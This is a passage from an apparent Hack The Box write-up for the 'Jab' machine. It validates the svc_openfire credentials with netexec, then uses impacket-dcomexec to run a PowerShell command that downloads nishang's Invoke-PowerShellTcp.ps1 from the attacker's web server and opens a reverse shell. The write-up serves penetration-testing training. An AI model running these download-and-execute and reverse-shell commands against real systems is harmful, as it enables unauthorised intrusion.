 
Now that we see these credentials my first thought was to use netexec to test out if these were valid.

```bash
netexec smb jab.htb -u 'svc_openfire'  -p '!@#$%^&*(1qazxsw'
```
![svc_openfire valid credentials](/assets/img/Jab/Jab_09.png)


So now we know that the credentials of svc_openfire were valid the next step is to try and use these credentials to get command execution on the machine. So i started to go through the different methods to get command execution remotely. Winrm didn't work neither did we have enough permissions to use smb to execute commands, after a bit of searching i found out that we might also be able to execute commands using DCOM. I was able to get a reverse shell using DCOM but before we could do this we needed to setup a copy of the **Invoke-PowerShellTcp.ps1** script from [nishang](https://github.com/samratashok/nishang) This github repo contains multiple powershell scripts including reverse shells and other post exploitation tools. next i setup a webserver in the shells directory of the github project using python where i'll host this script.

```bash
python -m http.server 80
```

So now the preparations for our payload were made. Next the powershell command to open a erverse shell would look like the following.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString("http://10.10.16.61/Invoke-PowerShellTcp.ps1");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.61 -Port 443
```

When applying this command to the structure of dcomexec of impacket the command would look like the following. After executing this a moment later we'd be greeted with a reverse shell.

```bash 
impacket-dcomexec -debug -silentcommand -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.129.97.204 'cmd.exe /c powershell iex (New-Object Net.WebClient).DownloadString("http://10.10.16.61/Invoke-PowerShellTcp.ps1");Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.61 -Port 443'
```
![svc_openfire valid credentials](/assets/img/Jab/Jab_10.png)
